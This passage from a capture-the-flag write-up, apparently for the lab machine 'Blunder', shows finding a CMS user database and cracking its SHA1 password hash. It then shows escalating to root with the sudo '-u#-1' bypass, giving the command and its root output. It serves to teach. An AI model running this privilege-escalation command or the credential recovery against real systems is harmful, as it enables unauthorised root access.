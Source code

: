 In the `www/` directory, we notice another interesting folder :
```bash
www-data@blunder:/var/www$ ls
bludit-3.10.0a
bludit-3.9.2
html
```

By digging in the tree directory we finally found the /var/www/bludit-3.10.0a/bl-content/databases file which can be pretty interesting

```
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ ls
categories.php
pages.php
plugins
security.php
site.php
syslog.php
tags.php
users.php
```

Let's try to grab some user info !

![User database information]({{ "assets/Blunder/databaseUserInfo.png" | absolute_url }} "User database information")

We have a `faca404fd5c0a31cf1897b823c695c85cffeb98d` password which is hashed with ShA1.

We can use [crackstation](https://crackstation.net/) or john for example to crack this hash and retrieve the plaintext password.
We finally end up with this password in cleartext : **Password120**

We can now elevate our privilege as the user `hugo` and grab the first flag :

![First user]({{ "assets/Blunder/firstUser.png" | absolute_url }} "First user")

# Privilege Escalation

The privilege escalation is pretty straight forward.

With a basic enumeration check we can spot something fishy :

![sudo configuration]({{ "assets/Blunder/sudoConfig.png" | absolute_url }} "sudo configuration")

This shows that the **hugo** user cannot run /bin/bash as root.

Reading info in [this link](https://www.exploit-db.com/exploits/47502), we understand that there is a flaw in this configuration.
With ALL specified, we can run /bin/bash as any user.
Sudo does not check for the existence of the specified user id and executes the command with arbitrary user id with the sudo privileges.
`-u#-1` returns as 0 which is root's account id.

So with the following command, we can elevate our privilege as root account :
```
hugo@blunder:/$ sudo -u#-1 /bin/bash
Password: Password120

root@blunder:/# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
```

And here we are, finally root on this great machine !
